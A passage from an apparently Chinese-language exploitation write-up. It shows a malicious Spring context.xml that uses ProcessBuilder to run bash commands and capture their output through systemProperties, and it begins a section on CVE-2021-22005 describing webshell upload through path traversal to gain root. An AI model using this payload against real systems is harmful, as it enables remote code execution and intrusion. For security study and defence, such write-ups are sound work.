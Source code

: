 ![](https://mmbiz.qpic.cn/mmbiz_jpg/Uq8Qfeuvou8FtczP1UexicmKrXOnWtTDoZkuibj7fn74bvnHeo7icVaHLiabMcib7hSlp3ZCGGAB6gkCw3npwCpy6eQ/640?wx_fmt=jpeg&wxfrom=5&wx_lazy=1&wx_co=1&tp=wxpic "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205072110648.png-water_print")  
  
现在虽然不用进行外网请求，但是仍然无法获取命令回显。通过查看 Bean 列表，发现存在名为 systemProperties  
 的 Bean。同时这个 Bean 也存在方法可以获取属性内容：  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Uq8Qfeuvou8FtczP1UexicmKrXOnWtTDoq5fOtdrIvnqvwAF12cy5oMuiaw5An7urXn5g98J3kx3Tk6M3ntPDnrg/640?wx_fmt=jpeg&wxfrom=5&wx_lazy=1&wx_co=1&tp=wxpic "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205072104027.png-water_print")  
  
所以在执行 SpEL 时，可以将命令暂存到 systemProperties  
 中，然后利用 getProperty  
 方法获取回显。最终的 context.xml 内容为：  
```
<beans xmlns="http://www.springframework.org/schema/beans"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
<bean id="pb" class="java.lang.ProcessBuilder">
<constructor-arg>
<list>
<value>/bin/bash</value>
<value>-c</value>
<value><![CDATA[ ls -la /  2>&1 ]]></value>
</list>
</constructor-arg>
</bean>
<bean id="is" class="java.io.InputStreamReader">
<constructor-arg>
<value>#{pb.start().getInputStream()}</value>
</constructor-arg>
</bean>
<bean id="br" class="java.io.BufferedReader">
<constructor-arg>
<value>#{is}</value>
</constructor-arg>
</bean>
<bean id="collectors" class="java.util.stream.Collectors"></bean>
<bean id="system" class="java.lang.System">
<property name="whatever" value="#{ system.setProperty(&quot;output&quot;, br.lines().collect(collectors.joining(&quot;\n&quot;))) }"/>
</bean>
</beans>

```  
  
  
最终漏洞利用的结果：  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Uq8Qfeuvou8FtczP1UexicmKrXOnWtTDook68pJrRS9G1mRO3rlmSYDNF92rm1sJ8g8quxzaXXORb2gooHZda3w/640?wx_fmt=jpeg&wxfrom=5&wx_lazy=1&wx_co=1&tp=wxpic "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205072106797.png-water_print")  
### 2.5 CVE-2021-22005  
#### 2.5.1 漏洞利用  
  
Analytics 服务相关端点存在目录穿越写文件，可以直接上传 Webshell 文件，并获取 root 权限。  
  